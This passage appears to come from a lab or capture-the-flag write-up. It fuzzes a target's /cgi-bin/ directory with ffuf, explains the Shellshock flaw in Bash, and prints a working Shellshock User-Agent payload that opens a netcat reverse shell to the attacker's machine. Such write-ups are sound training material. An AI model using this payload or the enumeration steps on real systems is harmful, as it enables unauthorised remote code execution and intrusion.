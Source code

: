 > Let's run fuzzing via `ffuf` on the following extensions: `.cgi`, `.pl`, `.sh`, `.py` to find out which scripts are stored in the `/cgi-bin/` directory:

```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u 'http://192.168.50.16/cgi-bin/FUZZ/' -ic -c -e .cgi,.sh,.pl,.py

```
<p align="center">
 <img src="./screenshots/cgi-bin_scripts.png" alt="cgi-bin_scripts" />
</p>

> The scan revealed the presence of two scripts: `backup.cgi` and `shell.sh`. This is our `Initial Access` through exploitation of the legacy `Shellshock vulnerability`.

---
## 🔓 Initial Access

> [!IMPORTANT]
`Shellshock` is a vulnerability in `Bash` (also known as `Bashdoor`) that allows arbitrary code execution through `Environment Variables`. The vulnerability enables an attacker
to pass an `Environment Variable` containing a function definition and append arbitrary code after it, which will be executed when a new bash process is launched. We know that
the server processes `CGI` requests through `bash` using scripts located in the `cgi-bin` directory. When such a script is requested, the server starts a process `via bash`, first
creating `Environment Variables` (including those derived from `HTTP headers`). If the server does not validate or filter HTTP request headers, `Bash` interprets the contents passed
in them as functions, and everything following as a command, which is executed immediately upon shell startup.

> For exploitation I will modify the `User-Agent` header.

> In `BurpSuite`, intercept a `GET` request for any page and change the value of the `User-Agent` header to `() { :;}; /bin/bash -c 'busybox nc 192.168.50.127 1111 -e sh'`:

<p align="center">
 <img src="./screenshots/burp.png" alt="burp" />
</p>
